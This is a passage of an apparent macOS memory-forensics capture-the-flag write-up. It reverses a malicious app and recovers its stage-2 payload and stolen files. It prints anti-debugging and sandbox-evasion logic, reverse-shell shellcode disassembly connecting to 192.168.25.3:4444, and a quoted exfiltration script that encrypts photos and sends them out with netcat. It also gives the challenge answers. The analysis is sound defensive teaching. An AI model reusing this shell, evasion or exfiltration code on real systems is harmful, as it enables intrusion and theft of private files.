Classic macOS `ptrace(PT_DENY_ATTACH, 0, 0, 0)`. If ptrace returns anything other than -1 (0xffffffff) a debugger is not attached and execution continues. Any debugger attempting to attach after this call is killed by the kernel. In `main` the result is XOR'd with `0xff` - failure calls `_exit(1)` immediately.

#### Anti-analysis gate 2 - `sub_100005470`: environment/VM fingerprinting

```c
int64_t sub_100005470()

    obj_1 = NSTask()

    // XOR-decode launch path (16 bytes) - a system binary to query hardware info
    rax_1, rcx, rdx = __TFSSCfT...__SS("481d4347183d02001e041b45121c5959", 0x20, 1, 0x20)
    rax_2, rcx_1, rdx_2 = sub_100002210(rax_1, rdx, rcx)           // decode at runtime
    obj_1.setLaunchPath(rax_2)                                      // e.g. system_profiler / ioreg

    // XOR-decode argument (6 bytes) - the data type to query
    rax_6, rcx_3, rdx_6 = __TFSSCfT...__SS("141c5141422c", 0xc, 1)
    rax_7, rcx_4, rdx_8 = sub_100002210(rax_6, rdx_6, rcx_3)       // decode at runtime
    obj_1.setArguments([ rax_7 ])

    // Capture stdout via NSPipe - read system query output
    obj_1.setStandardOutput(pipe)
    obj_1.launch()
    obj_1.waitUntilExit()
    output = pipe.fileHandleForReading.readDataToEndOfFile()         // read full stdout

    // XOR-decode expected fingerprint string (7 bytes)
    rax_31, rcx_18, rdx_19 = __TFSSCfT...__SS("020651575b3a0f", 0xe, 1)
    rax_32, rcx_19, rdx_21 = sub_100002210(rax_31, rdx_19, rcx_18) // decode at runtime

    // Check if system output contains the expected hardware token - returns 1 if real machine
    char rax_33 = output.contains(rax_32)
    return rax_33
```

Runs an XOR-decoded system binary with an XOR-decoded argument, captures its stdout, then checks if output contains a decoded fingerprint token. A sandbox or VM that doesn't return the expected hardware identifier causes `main` to call `_exit(1)`.

#### Payload retrieval - `sub_100002930`: fetch stage-2 from C2

```c
int64_t sub_100002930()

    obj_1 = NSTask()

    // XOR-decode the download tool path (25 bytes)
    rax_1, rcx, rdx = __TFSSCfT...__SS(
        "481d4347182c09075f481b4e141c5558682f1901570e045215", 0x32, 1, 0x32)
    rax_2, rcx_1, rdx_2 = sub_100002210(rax_1, rdx, rcx)           // decode e.g. /usr/bin/curl
    obj_1.setLaunchPath(rax_2)

    // XOR-decode the URL/argument (18 bytes) - points to C2 payload download
    rax_6, rcx_3, rdx_6 = __TFSSCfT...__SS(
        "34387854453b1c0f43022c561309644c473a", 0x24, 1)
    rax_7, rcx_4, rdx_8 = sub_100002210(rax_6, rdx_6, rcx_3)       // decode C2 URL or IP:port
    obj_1.setArguments([ rax_7 ])

    // Capture stdout - the downloaded payload bytes
    obj_1.setStandardOutput(pipe)
    obj_1.launch()
    obj_1.waitUntilExit()
    output = pipe.fileHandleForReading.readDataToEndOfFile()         // raw payload bytes

    // Split output by separator character (data_1000121c5)
    // Iterate tokens looking for one that contains decoded string "2f094251403e190b11323d7e23" (13 bytes)
    for token in output.components(separatedBy: sep):
        if token.contains( decode("2f094251403e190b11323d7e23") ):   // e.g. "Connected" / IP marker
            // Split token by separator (data_1000121eb, 2 bytes) - isolates the value field
            parts = token.components(separatedBy: sep2)
            if parts.count > 1:
                // Take parts[1], trim whitespace/newlines - this is the extracted value (IP or key)
                result = parts[1].trimmingCharacters(in: .whitespaceAndNewlines)
                return result                                         // return extracted C2 data
    _exit(1)
```

This function runs an XOR-decoded network tool (likely `curl`) with an XOR-decoded argument (the C2 URL), captures the response, then parses it line by line looking for a token containing a decoded marker string. When found it splits on a second separator and trims the value - extracting the C2 IP address or connection key from the response. This is how the binary resolves its live C2 endpoint at runtime.

#### Payload execution - `sub_1000030e0`: run stage-2 with piped I/O

```c
int64_t sub_1000030e0(int64_t arg1, int64_t arg2, int64_t arg3)

    obj_2 = NSTask()

    // XOR-decode interpreter path (15 bytes)
    rax_1, rcx, rdx = __TFSSCfT...__SS(
        "481d4347183d02001e140056141d5d", 0x1e, 1, 0x1e)
    rax_2, rcx_1, rdx_2 = sub_100002210(rax_1, rdx, rcx)           // decode shell / interpreter
    obj_2.setLaunchPath(rax_2)

    // XOR-decode first argument (4 bytes)
    rax_6, rcx_3, rdx_6 = __TFSSCfT...__SS("4a09", 4, 1)
    rax_7, rcx_4, rdx_8 = sub_100002210(rax_6, rdx_6, rcx_3)       // decode e.g. "-i" / "-c"

    // XOR-decode second argument (3 bytes)
    rax_8, rcx_5, rdx_9 = __TFSSCfT...__SS("555d06", 6, 1)
    rax_9, rcx_6, rdx_11 = sub_100002210(rax_8, rdx_9, rcx_5)      // decode e.g. ">&" / "> "
    obj_2.setArguments([ rax_7, rax_9 ])

    // Pipe both stdout and stdin - bidirectional I/O for interactive shell
    obj_2.setStandardOutput(pipe_out)
    obj_2.setStandardInput(pipe_in)
    obj_2.launch()

    // Write arg1 (payload/script from sub_100002930) into the interpreter's stdin
    pipe_in.fileHandleForWriting.writeData(arg1.data(using: .utf8))
    pipe_in.fileHandleForWriting.closeFile()                        // signal EOF to interpreter

    // Read interpreter stdout - the execution result / connection output
    output = pipe_out.fileHandleForReading.readDataToEndOfFile()

    // Split by separator (data_100012253, 2 bytes), take the LAST token, trim whitespace
    parts = output.components(separatedBy: sep)
    result = parts.last.trimmingCharacters(in: .whitespaceAndNewlines)

    // Recurse / loop: feed result back into sub_100001e10 for next stage
    loop:
        rax_102 = sub_100001e10(var_4e8, result, var_4f0)
        if rax_102 != 0:
            return rax_102                                          // return final result
    _exit(1)
```

This function takes the C2 data returned by `sub_100002930`, pipes it into an XOR-decoded interpreter (likely `/bin/bash` or `/bin/sh`) with bidirectional stdin/stdout, reads the output, and feeds results into a recursive loop via `sub_100001e10` until a valid result is produced. This is the **interactive reverse shell bootstrap** - the extracted C2 payload is fed directly to a shell, and the loop handles the back-and-forth of an interactive session.

#### XOR decoder - `sub_100002210`: key = `gh057_kn1gh7`



```c
int64_t sub_100002210(int64_t arg1, int64_t arg2, int64_t arg3)

    // Hardcoded XOR key YEY , now we can decrypt all the XORED garbage from before 
    rax, rcx = __TFSSCfT...__SS("gh057_kn1gh7", 0xc, 1, 1, 0xc)

    // Input string decoded from hex bytes via sub_100001e10
    rax_5 = sub_100001e10(arg1, arg2, arg3)   // hex string raw bytes

    // For each byte i in the decoded data:
    //   output[i] = data[i] ^ key[i % 12]
    __TFV10Foundation4Datas9subscriptFSiVs5UInt8(
        zx.q(rax_16) ^ zx.q(__TTSgq5Vs5UInt8___TFSag9subscriptFSix(
            mods.dp.q(sx.o(rax_14), rax_17), rax_3)),   // data[i] ^ key[i % keylen]
        rax_14, &var_20)

    // Convert result bytes UTF-8 string and return
    return result
```

Key: `gh057_kn1gh7` (12 bytes)

#### Full string decode - all obfuscated values revealed

With the key known, every encoded string across all functions decodes as follows:

| Function | Encoded | Decoded | Role |
|----------|---------|---------|------|
| `sub_100005470` | `481d4347183d02001e041b45121c5959` | `/usr/bin/csrutil` | SIP status binary |
| `sub_100005470` | `141c5141422c` | `status` | csrutil argument |
| `sub_100005470` | `020651575b3a0f` | `enabled` | SIP state to match |
| `sub_100002930` | `481d4347182c09075f481b4e141c5558682f1901570e045215` | `/usr/sbin/system_profiler` | Hardware info tool |
| `sub_100002930` | `34387854453b1c0f43022c561309644c473a` | `SPHardwareDataType` | Profiler data type |
| `sub_100002930` | `2f094251403e190b11323d7e23` | `Hardware UUID` | Field to extract |
| `sub_1000030e0` | `481d4347183d02001e140056141d5d` | `/usr/bin/shasum` | Hash tool |
| `sub_1000030e0` | `4a09` | `-a` | shasum flag |
| `sub_1000030e0` | `555d06` | `256` | SHA-256 mode |
| `sub_1000030e0` | `481d4347183d02001e081852091b4359` | `/usr/bin/openssl` | Crypto tool |
| `sub_1000030e0` | `030f4341` | `dgst` | openssl subcommand |
| `sub_1000030e0` | `4a055400` | `-md5` | openssl digest mode |
| `sub_1000059d0` | `481c5d45183c04031f0618470b0d1e40473b0a1a54141e54` | `/tmp/com.apple.updatesvc` | Drop path |
| `sub_1000059d0` | `480a595b183c03035e03` | `/bin/chmod` | Permission setter |
| `sub_1000059d0` | `4c10` | `+x` | chmod argument |

#### The real attack chain - fully reconstructed

```
 -----------------------------------------------------------------------
              ==[ preview - Full Execution Chain ]==
 -----------------------------------------------------------------------

  [Gate 1]  ptrace(PT_DENY_ATTACH)
            if debugger attached _exit(1)

  [Gate 2]  /usr/bin/csrutil status
            if output contains "enabled" _exit(1)
            (malware requires SIP DISABLED to proceed)

  [Fingerprint]  /usr/sbin/system_profiler SPHardwareDataType
                 parse output extract value after "Hardware UUID:"
                 unique machine identifier

  [Key Derive]   /usr/bin/shasum -a 256  <UUID>
                 /usr/bin/openssl dgst -md5  <sha256_output>
                 machine-derived decryption key

  [Decrypt]  large .rodata blob decrypted using derived key
             actual stage-2 payload bytes

  [Drop]     write payload /tmp/com.apple.updatesvc
             /bin/chmod +x /tmp/com.apple.updatesvc

  [Execute]  /tmp/com.apple.updatesvc
             connect(192.168.25.3, 4444) + execve("/bin/sh")

 -----------------------------------------------------------------------
```

The malware uses the machine's own Hardware UUID - hashed through SHA-256 then MD5 - as the decryption key for its stage-2 payload. This means the same binary dropped on a different machine produces a different key and fails to decrypt, making static analysis and sandboxing useless without the exact hardware UUID of the victim machine.

#### Dumping the stage-2 payload - `/tmp/com.apple.updatesvc`

With the drop path decoded (`/tmp/com.apple.updatesvc`), we used `mac_list_files` to find its vnode in the kernel page cache:

```
.\vol2\volatility_2.6_win64_standalone\volatility_2.6_win64_standalone.exe \
  --plugins=vol2\plugins -f chall\chall.raw \
  --profile=MacElCapitan_15G31x64 mac_list_files 2>&1 | findstr "updatesvc"
```



Output:
```
0xffffff802867c780  /private/tmp/com.apple.updatesvc
```

Dumped with `mac_dump_file`:

```
.\vol2\volatility_2.6_win64_standalone\volatility_2.6_win64_standalone.exe \
  --plugins=vol2\plugins -f chall\chall.raw \
  --profile=MacElCapitan_15G31x64 mac_dump_file -q 0xffffff802867c780 -O extracted\updatesvc
```



```
Volatility Foundation Volatility Framework 2.6
Wrote 17204 bytes to extracted\updatesvc from vnode at address ffffff802867c780
```

17,204 bytes - a small native Mach-O binary(shellcode)

#### Stage-2 analysis in Cutter(R2)



Loaded `extracted\updatesvc` in Cutter (radare2 GUI). Native Mach-O x86-64 binary. Function list (`afl`):

```
0x100000c70    4 59           entry0
0x100000cb0    8 406          main
0x100000e50    1 102          sym.___inline_memcpy_chk
0x100000eb6    1 6            sym.imp.__memcpy_chk
0x100000ebc    1 6            sym.imp.__stack_chk_fail
0x100000ec2    1 6            sym.imp.exit
0x100000ec8    1 6            sym.imp.memcpy
0x100000ece    1 6            sym.imp.mmap
0x100000ed4    1 6            sym.imp.perror
0x100000f9d    1 8086         fcn.100000f9d
```

`fcn.100000f9d` (8086 bytes) is the decrypted shellcode payload written into executable memory by `main` via `mmap`.



Strings (`iz`):

```
nth   paddr        vaddr        len  section             string
0     0x00000f94   0x100000f94  7    3.__TEXT.__cstring  /bin/sh
1     0x00002f31   0x100002f31  4    3.__TEXT.__cstring  mmap
```

`/bin/sh` at `0x100000f94` - sits immediately before `fcn.100000f9d`, confirming it is used by the shellcode as the execve argument.

#### Shellcode disassembly - the reverse shell

`main` allocates RWX memory with `mmap`, copies the shellcode from `__TEXT.__cstring` into it, then jumps. Cutter's disassembly of the shellcode section starting at `0x100000f28`:



```asm
; ── socket(AF_INET, SOCK_STREAM, 0) ─────────────────────────────
0x100000f28  mov eax, 0x2000061    ; macOS BSD syscall: socket
0x100000f2d  push 2                ; AF_INET
0x100000f2f  pop rdi               ; arg1: domain
0x100000f30  push 1                ; SOCK_STREAM
0x100000f32  pop rsi               ; arg2: type
0x100000f33  xor rdx, rdx          ; arg3: protocol = 0
0x100000f36  syscall               ; socket fd in rax

; ── connect(fd, &sockaddr_in, 16) ────────────────────────────────
0x100000f38  mov r12, rax          ; save socket fd
0x100000f3b  mov rdi, rax          ; arg1: socket fd
0x100000f3e  mov eax, 0x2000062    ; macOS BSD syscall: connect
0x100000f43  xor rsi, rsi
0x100000f46  push rsi              ; 8 zero bytes (sockaddr padding)
; 48 be 02 00 11 5c c0 a8 19 03
0x100000f47  movabs rsi, 0x0319a8c05c110002  ; sockaddr_in packed:
             ;  02 00  sin_family = AF_INET (2)
             ;  11 5c  sin_port   = 0x115c  = 4444  (big-endian)
             ;  c0 a8 19 03 sin_addr = 192.168.25.3
0x100000f51  push rsi              ; put sockaddr on stack
0x100000f52  mov rsi, rsp          ; arg2: &sockaddr_in
0x100000f55  push 0x10
0x100000f57  pop rdx               ; arg3: sizeof(sockaddr_in) = 16
0x100000f69  syscall               ; connect()

; ── dup2(fd, stdout) / dup2(fd, stdin) ───────────────────────────
0x100000f6b  mov eax, 0x200005a    ; macOS BSD syscall: dup2
0x100000f70  mov rsi, 1            ; newfd = stdout
0x100000f77  syscall               ; dup2(sock, 1)
0x100000f79  mov eax, 0x200005a    ; dup2
0x100000f7e  mov rsi, 0            ; newfd = stdin
             syscall               ; dup2(sock, 0)

; ── execve("/bin/sh", NULL, NULL) ────────────────────────────────
             ; "/bin/sh" at 0x100000f94
             mov eax, 0x200003b    ; macOS BSD syscall: execve
             syscall               ; execve("/bin/sh") interactive shell
```

#### Raw bytes confirm IP and port





Raw bytes at `0x100000f47`:

```
48 be 02 00 11 5c c0 a8 19 03
│    │  └──┬──┘ └──┬──┘ └────┬────┘
│    │   AF_INET  port      IP addr
│    │    = 2    = 4444   192.168.25.3
└────┘
movabs rsi, imm64  (REX.W + BE + 8-byte immediate)
```

**C2 = `192.168.25.3:4444`**

The shellcode is a  reverse shell: `socket connect(192.168.25.3:4444) dup2(sock,stdout) dup2(sock,stdin) execve("/bin/sh")`. rawdogged the packet inspection

---

### Q12 - What are the key and IV used to decrypt the payload, and what compression method was used?

The key `preview` uses to decrypt its `.rodata` payload is **derived from the machine's Hardware UUID**. We already knew this from reversing `sub_100002930` and `sub_1000030e0` - the chain is:

```
/usr/sbin/system_profiler SPHardwareDataType
  parse "Hardware UUID:" field
  /usr/bin/shasum -a 256  <UUID>
  /usr/bin/openssl dgst -md5  <sha256_result>
  = decryption key
```

To get the actual UUID from the memory dump, we listed all files in the Keychains directory - on macOS, the subdirectory under `/Users/<user>/Library/Keychains/` is **named after the machine's Hardware UUID**:

```
.\vol2\volatility_2.6_win64_standalone\volatility_2.6_win64_standalone.exe \
  --plugins=vol2\plugins -f chall\chall.raw \
  --profile=MacElCapitan_15G31x64 mac_list_files 2>&1 | findstr "Keychains"
```



Output (relevant entries):

```
0xffffff802f9d8070  /Users/admin/Library/Keychains/56D0245B-513D-02BD-D236-4BF7887A32FC/keychain-2.db-wal
0xffffff8024d1c000  /Users/admin/Library/Keychains/login.keychain
0xffffff802474d1e0  /Users/admin/Library/Keychains/56D0245B-513D-02BD-D236-4BF7887A32FC/keychain-2.db
0xffffff80226700e0  /Users/admin/Library/Keychains/System.keychain
```

The directory `56D0245B-513D-02BD-D236-4BF7887A32FC` is the **Hardware UUID** of the victim machine. macOS stores the modern SQLite keychain (`keychain-2.db`) inside a folder named after the hardware UUID as a security binding - the keychain is cryptographically tied to that specific machine.

This is also exactly what `preview` queries via `system_profiler SPHardwareDataType` and the `Hardware UUID:` field.

**References:**
- [What are UUIDs and why might I need them? - Eclectic Light](https://eclecticlight.co/2024/04/06/what-are-uuids-and-why-might-i-need-them/)
- [macOS Keychain internals - eoinkelly/notes](https://github.com/eoinkelly/notes/blob/main/security/macos-keychain.md)

#### Key derivation

```
Hardware UUID : 56D0245B-513D-02BD-D236-4BF7887A32FC
SHA-256       : a477cc3fd56692115bc8ba59a9ef0bc4e6b4cdd734eecb6106f02eaa03b91655
MD5(SHA-256)  : 8b11dd00809d0b524a4ad21575b6a5c3  ← decryption key
```

---

### Q13 - At what path does the malicious application write the decrypted payload, and what is its SHA-256?

From reversing `preview`, `sub_1000059d0` decodes the drop path via `sub_100002210` (XOR key `gh057_kn1gh7`):

```
encoded : 481c5d45183c04031f0618470b0d1e40473b0a1a54141e54
decoded : /tmp/com.apple.updatesvc
```

We already dumped this file from the memory image using `mac_dump_file` at vnode `0xffffff802867c780` (17,204 bytes). SHA-256:

```
SHA-256 : 98e656aa1d6dbb2781eb41c28897c4b3d52afdb80c2e7ab0861196004f15a562
```

**Answer: `/tmp/com.apple.updatesvc_98e656aa1d6dbb2781eb41c28897c4b3d52afdb80c2e7ab0861196004f15a562`**

---

### Q14 - What are the names of the files exfiltrated by the attacker?

First checked open file descriptors for the shell (PID 581) and bash history:

```
mac_lsof 2>&1 | findstr "581"
mac_bash
```



`mac_lsof` showed only `/dev/ttys000` - the reverse shell redirected I/O over the socket, leaving no file handles behind. `mac_bash` revealed the attacker's session commands: `ls`, `csrutil status`, `xcode-select --install`, `cd Desktop`. The final entry - `sudo osxpmem.app/osxpmem -o OSXPMem/Memcap/mem.aff4` - is Peter Parker capturing the memory dump after noticing the compromise.

Next, listed all files under `/private/tmp`:

```
.\vol2\volatility_2.6_win64_standalone\volatility_2.6_win64_standalone.exe \
  --plugins=vol2\plugins -f chall\chall.raw \
  --profile=MacElCapitan_15G31x64 mac_list_files 2>&1 | Select-String "tmp"
```



```
0xffffff8028ace780  /private/tmp/dubvm20.sh
0xffffff8028692960  /private/tmp/pics.enc
0xffffff8028692870  /private/tmp/pics.zip
0xffffff802867c780  /private/tmp/com.apple.updatesvc
```

`dubvm20.sh` is the exfil script. `pics.zip` contains the stolen files, `pics.enc` is the encrypted archive sent to the attacker. Dumped `pics.zip` via `mac_dump_file` at vnode `0xffffff8028692870` (59,482 bytes):

```
700.jpeg    8,099 bytes
778.jpeg   12,088 bytes
779.jpeg   12,330 bytes
780.jpeg   27,032 bytes
```



Peter Parker's Spider-Man photographs - exactly what Eddie Brock sent the service shop to steal.

**Answer: `700.jpeg,778.jpeg,779.jpeg,780.jpeg`**

---

### Q15 - What is the encryption key and port used to exfiltrate the data?

`dubvm20.sh` was still in the kernel page cache. Dumped it from vnode `0xffffff8028ace780`:

```
.\vol2\volatility_2.6_win64_standalone\volatility_2.6_win64_standalone.exe \
  --plugins=vol2\plugins -f chall\chall.raw \
  --profile=MacElCapitan_15G31x64 mac_dump_file -q 0xffffff8028ace780 -O extracted\dubvm20.sh
```



```
Wrote 183 bytes to extracted\dubvm20.sh from vnode at address ffffff8028ace780
```

Contents of `dubvm20.sh`:

```bash
cd /users/admin/Pictures/spidey
zip /tmp/pics.zip *.jpeg
openssl enc -aes-256-cbc -salt -in /tmp/pics.zip -out /tmp/pics.enc -k w3_4r3_v3n0m
cat /tmp/pics.enc | nc 192.168.25.3 9999
```

The full exfil chain in four lines:
1. `cd` into Peter's Spider-Man photos directory
2. Zip all JPEGs into `/tmp/pics.zip`
3. Encrypt with AES-256-CBC, key `w3_4r3_v3n0m` `/tmp/pics.enc`
4. Stream the encrypted archive to `192.168.25.3:9999` via netcat

**Answer: `w3_4r3_v3n0m:9999`**

---

## References


- [Apple KDK Downloads](https://developer.apple.com/download/all/)
- [Volatility Foundation Profiles - MacElCapitan_15G31x64](https://github.com/volatilityfoundation/profiles/Mac/10.11/ElCapitan_10.11.6_15G31.zip)
- [Chainbreaker - macOS Keychain parser](https://github.com/n0fate/chainbreaker)
- [macOS Keychain - DFIR Knowledge Base](https://forge-work.com/dfir/knowledge/artifacts/macos-keychain)
- [Keychain Analysis with Mac OS X Memory Forensics](https://repo.zenk-security.com/Forensic/Keychain%20Analysis%20with%20Mac%20OS%20X%20Memory%20Forensics.pdf)
- [Apple Keychain - Forensic Focus forums](https://www.forensicfocus.com/forums/general/apple-keychain/)
- [Recover/crack password from keychain in OS X - Apple StackExchange](https://apple.stackexchange.com/questions/480184/recover-crack-password-from-keychain-in-os-x-10-15-catalina-via-known-items-in)
- [What are UUIDs and why might I need them? - Eclectic Light](https://eclecticlight.co/2024/04/06/what-are-uuids-and-why-might-i-need-them/)
- [macOS Keychain internals - eoinkelly/notes](https://github.com/eoinkelly/notes/blob/main/security/macos-keychain.md)
- [OSX Memory Acquisition and Analysis using osxpmem and Volatility](https://ponderthebits.com/2017/02/osx-mac-memory-acquisition-and-analysis-using-osxpmem-and-volatility/)
- [macOS Forensics: Structure, Persistence and Investigation - Medium](https://medium.com/@cyberengage.org/macos-forensics-structure-persistence-and-investigation-7fa228e837af)
- [macOS Memory Forensics - ScienceDirect](https://www.sciencedirect.com/science/article/pii/S2666281720302535)
- [Memory Analysis of macOS Page Queues - DFRWS](https://dfrws.org/wp-content/uploads/2020/10/2020_USA_paper-memory_analysis_of_macos_page_queues.pdf)
- [Memory Analysis of macOS Page Queues - ResearchGate](https://www.researchgate.net/publication/346011419_Memory_Analysis_of_macOS_Page_Queues)
- [Macintosh Computer Forensic Analysis - IFIP](https://dl.ifip.org/db/conf/ifip11-9/df2006/CraigerB06.pdf)
- [Mac OS X Leopard Memory Analysis - NPS](https://faculty.nps.edu/ncrowe/oldstudents/icdf2c17_leopard.htm)
- [Leveraging the Windows Pagefile for Memory Forensics - JDFSL](https://commons.erau.edu/jdfsl/vol13/iss1/7/)
- [macOS Memory Forensics Thesis - LSU](https://repository.lsu.edu/gradschool_theses/5477/)
- [A Forensically Robust Method for Acquisition of iCloud Data - DFRWS 2014](https://dfrws.org/sites/default/files/session-files/2014_USA_pres-a_forensically_robust_method_for_acquisition_of_icloud_data.pdf)

---

Thankyou for reading.Macos DFIR isnt much documented as well as windows , hopefully this helps a bit ig 